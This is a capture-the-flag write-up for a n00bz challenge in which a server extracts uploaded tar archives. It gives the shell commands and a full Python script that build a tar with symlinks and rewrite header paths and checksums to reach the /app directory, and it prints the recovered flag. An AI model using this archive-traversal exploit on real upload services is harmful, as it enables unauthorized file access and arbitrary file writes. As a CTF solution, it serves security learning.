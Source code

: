 ```yaml
---
created: 2024-08-04T06:05
updated: 2024-08-08T23:22
points: 478
navigation: false
solves: 119
---
```


We are allowed to upload a tar file and have the remote extract it, nice.

## analysis

But we don't know the flag file name, so we can't simply add a link to the tar, pointing to the flag file, we need to read the folder `/app`.

Furthermore, `open` does not read folders, so we have to use the endpoint `/view/<name>` to read our link pointing to `/app`.

Which means we have to make a link under `/app/uploads/` that will point to `/app/` (and not under `/app/uploads/0123/aaa` during normal extraction).

## payload

![image.png](https://res.cloudinary.com/kumonochisanaka/image/upload/v1723173745/2024/08/ace04d395856a46fe9424093ecc080a2.png)

1. `tar` file can contain links, with that we can target the `/app` folder.
2. `tar` file extraction allows arbitrary file write to any location by editing the name field (binary).
3. `tar` file has a crc that needs to be patched.

```bash
ln -s /app aaa
tar -cvf malicious.tar aaa
python patch.py
```

Sending it to the server and I got... Internal error.

After running my own docker instance, I found the cause.

There is no `aaa.tar` inside `/app`, so the following line failed.

```python
files.remove(f'{name}.tar')  # Remove the tar file from the list
```

To solve this we can simply add a new entry `/app/aaa.tar`.

```bash
ln -s /app aaa
ln -s /app aaa.tar
tar -cvf malicious.tar aaa aaa.tar
```

## execution
After uploading the file, visit `/view/aaa`.

![image.png](https://res.cloudinary.com/kumonochisanaka/image/upload/v1722748079/2024/08/6aab82c079c6a5a981cdc69959b8ec50.png)

Clicking on `flag` we arrive at our flag.

```flag
n00bz{n3v3r_7rus71ng_t4r_4g41n!_72810bc8e5af}
```

## auto tar checksum/path patcher

> Reused from my previous writeup.

```python [patch.py]
with open("malicious.tar", "rb") as f:
    tar = f.read()
    tar = bytearray(tar)

    a1 = b"/app/uploads/aaa"
    tar[0x00:0x00+len(a1)] = a1
    a2 = b"/app/aaa.tar"
    tar[0x200:0x200+len(a2)] = a2

    off = 0
    while True:
        if tar[off] == 0:
            break
        tar[off+0x94:off+0x9c] = b' '*(0x9c-0x94)
        checksum = sum(list(tar[off+0x00:off+0x200]))
        tar[off+0x94:off+0x9c] = bytes(("%06o\0" % checksum).ljust(8), "ascii")
        print("patched", hex(off))
        off += 0x200

    tar = bytes(tar)
    with open("malicious.out.tar", "wb") as f:
        f.write(tar)
        print("Done")
```
